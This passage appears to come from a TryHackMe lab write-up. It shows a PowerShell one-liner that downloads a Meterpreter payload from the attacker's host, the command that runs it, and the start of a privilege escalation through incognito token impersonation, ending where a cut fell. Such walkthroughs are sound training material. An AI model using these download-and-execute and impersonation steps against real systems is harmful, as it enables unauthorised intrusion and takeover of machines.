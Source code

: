 On the target (via the reverse shell), download the file:

```powershell
powershell "(New-Object System.Net.WebClient).DownloadFile('http://<your-thm-ip>:8000/shell-test.exe','shell-test.exe')"
```

![image](https://github.com/user-attachments/assets/4408c39f-2e4b-4662-abd9-33f0291d7937)

Execute the payload:

```powershell
Start-Process "shell-test.exe"
```

![image](https://github.com/user-attachments/assets/ec6fbbcd-504b-4557-86e0-e49ed71d4b73)

Once the Meterpreter shell is received, type:

```bash
shell
```

![image](https://github.com/user-attachments/assets/f52a258f-15aa-4005-b744-567a4465c22a)

#### Privilege Escalation via Token Impersonation

Check current privileges:

```powershell
whoami /priv
```

![image](https://github.com/user-attachments/assets/c873e060-900e-4642-b150-32b0005d4af6)

We see `SeDebugPrivilege` and `SeImpersonatePrivilege` are enabled — perfect for token impersonation.

Load the **incognito** module in Meterpreter:

```bash
load incognito
```

> If `load incognito` fails, try `use incognito` or ensure your Metasploit is updated.

Press `Ctrl+C` to exit the shell and return to the Meterpreter prompt.

List available tokens:

```bash
list_tokens -g
```

![image](https://github.com/user-attachments/assets/580e84f2-ddf3-4c5c-a265-50404dd99b3e)

We can see that the `BUILTIN\Administrators` token is available.

Impersonate it:
